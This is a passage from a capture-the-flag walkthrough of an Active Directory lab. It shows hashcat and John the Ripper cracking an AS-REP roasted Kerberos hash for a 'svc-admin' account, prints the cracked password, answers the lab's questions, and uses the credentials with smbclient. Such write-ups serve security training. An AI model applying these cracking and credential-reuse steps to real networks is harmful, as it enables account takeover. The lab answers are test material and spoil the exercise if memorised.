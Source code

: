 ```
hashcat --hash-type 18200 --attack-mode 0 ASREProastables.txt passwordlist.txt
```

I tried installing `xf86-video-amdgpu`, and `rocm-opencl-runtime`, hashcat binary.

**Hashcat doesn't work at all !!!**

Let's use **John**:

```sh
john --wordlist=passwordlist.txt ASREProastables-john.txt
```

**Result:**

```sh

Warning: detected hash type "krb5asrep", but the string is also recognized as "krb5asrep-aes-opencl"
Use the "--format=krb5asrep-aes-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
management2005   ($krb5asrep$svc-admin@SPOOKYSEC.LOCAL)
1g 0:00:00:00 DONE (2024-04-27 22:35) 50.00g/s 384000p/s 384000c/s 384000C/s horoscope..tyler2
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```




**Questions:**
1. We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?
	- `svc-admin`

2. Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)
	- `Kerberos 5, etype 23, AS-REP` 

3. What mode is the hash?
	- `18200`

4. Now crack the hash with the modified password list provided, what is the user accounts password?
	- `management2005`


### Task 6: Back to the Basics
---


**Enumeration using smbclient:**

```sh
smbclient -L 10.10.60.39 -U svc-admin
# password: management2005
```
